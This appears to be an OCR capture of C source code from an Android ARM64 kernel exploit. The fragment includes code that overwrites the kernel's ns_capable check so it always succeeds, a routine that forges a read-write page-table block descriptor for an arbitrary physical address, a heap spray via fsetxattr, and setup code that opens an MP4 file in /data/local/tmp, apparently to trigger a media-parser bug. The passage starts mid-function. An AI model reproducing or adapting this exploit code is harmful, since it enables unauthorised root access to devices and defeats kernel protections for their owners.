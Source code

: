 ```
{
	fsetxattr(fd_guard_heap, "user.g", guardBuffer, 1000, 0);
}

void kernel_patch_ns_capable(unsigned long * addr) {
        unsigned int *p = (unsigned int *)addr;

        p[0] = 0xD2800020;//MOV x0,#1
        p[1] = 0xD65F03C0;//RET
}

unsigned long get_fack_block(unsigned long phys_addr)
{
	unsigned long fake_d_block = 0l	;
	// d_block 中的内容，主要是修改 AP[2:1], 修改为读写属性
    	// bit[1:0]
    	fake_d_block = fake_d_block | (0x0000000000000001);     //                  Y
    	// bit[11:2] lower block attributes
    	fake_d_block = fake_d_block | (0x0000000000000800);     // nG, bit[11]      Y
    	fake_d_block = fake_d_block | (0x0000000000000400);     // AF, bit[10]      Y
    	fake_d_block = fake_d_block | (0x0000000000000200);     // SH, bits[9:8]
    	fake_d_block = fake_d_block | (0x0000000000000040);     // AP[2:1], bits[7:6]
    	fake_d_block = fake_d_block | (0x0000000000000020);     // NS, bit[5]       Y
   	fake_d_block = fake_d_block | (0x0000000000000010);     // AttrIndx[2:0], bits[4:2]
    	// bit[29:12] RES0
    	// bit[47:30] output address
    	fake_d_block = fake_d_block | (phys_addr & 0x0000ffffc0000000);
    	// bit[51:48] RES0
    	// bit[63:52] upper block attributes, [63:55] ignored
    	//fake_d_block = fake_d_block | (0x0010000000000000);     // Contiguous, bit[52]
    	//fake_d_block = fake_d_block | (0x0020000000000000);     // PXN, bit[53]
    	//fake_d_block = fake_d_block | (0x0040000000000000);     // XN, bit[54]
	return fake_d_block;
}

int maximize_fd_limit(void){
    struct  rlimit rlim;
    int ret;

    ret = getrlimit(RLIMIT_NOFILE,&rlim);
    if(ret != 0){
        return -1;
    }

    rlim.rlim_cur = rlim.rlim_max;
    setrlimit(RLIMIT_NOFILE,&rlim);

    ret = getrlimit(RLIMIT_NOFILE,&rlim);
    if(ret != 0){
        return -1;
    }
    return rlim.rlim_cur;
}

status_t setDataSource()
{
	const char * path = "/data/local/tmp/3685c32c15c5dad78aaa19ca697d4ae5.mp4";
	int fd = open(path, O_RDONLY | O_LARGEFILE);
	if (fd < 0)
	{
		printf("[-] open map4 failed\n");
		return -1;
	}
```